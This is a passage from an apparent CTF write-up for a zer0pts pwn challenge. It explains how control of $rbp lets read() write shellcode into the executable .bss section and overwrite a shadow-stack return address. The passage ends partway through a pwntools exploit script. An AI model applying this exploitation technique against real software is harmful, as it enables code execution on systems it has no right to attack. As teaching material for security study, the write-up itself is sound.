 Let's run this and see what happens. At the first breakpoint, we can see that
`$rbp` is indeed set to `0xdeadbeef`. At the second breakpoint, we are about to
call `read(0, buf, 0x100)`:
![a.png](a.png)

Notice anything weird? `$rbp = 0xdeadbeef`, so we're about to call `read(0, 0xdeadbeef - 0x100, 0x100)`

Since we have complete control over `$rbp`, we can write 0x100 (256) bytes of
data anywhere we want. What's the best place to do that? Let's check the memory
mappings:

![vmmap.png](vmmap.png)

The `.bss` section is always at `0x600000` and is readable, writable, and
executable! That means we can write shellcode into it and later execute it. Now
the final piece is to hijack control flow to jump into our shellcode.

Conveniently enough, the return addresses are also stored in the `.bss` section.
We can get the address of the return address stack like so
```python
pwn.context.binary = elf = pwn.ELF("chall")
stack_shadow = elf.symbols["__stack_shadow"]  # 0x600234
```

So all we have to do is overwrite a return address there and set it to the
address of our shellcode. After some fiddling around with cyclic strings to
calculate offsets, the final exploit looks like this:
```python
import pwn

if pwn.args.LOCAL:
    io = pwn.process("./chall")
else:
    io = pwn.remote("pwn.ctf.zer0pts.com", 9011)

if pwn.args.GDB:
    # breakpoints:
    # 0x4001d4: vuln.leave
    # 0x400138: after notvuln.write
    # 0x400165: after notvuln.read
    pwn.gdb.attach(
        io,
        gdbscript="""
break *0x4001d4
```